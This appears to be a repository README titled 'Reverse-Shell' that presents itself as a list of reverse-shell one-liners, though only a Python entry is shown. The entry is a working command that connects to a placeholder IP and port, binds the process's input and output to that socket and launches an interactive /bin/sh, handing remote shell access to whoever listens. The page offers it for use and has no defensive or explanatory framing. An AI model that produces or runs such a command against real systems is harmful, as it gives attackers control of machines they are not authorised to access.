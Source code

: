 Reverse-Shell
=============

A list of reverse-shell

## Python
```bash
python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"{IP}\\",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\'
```
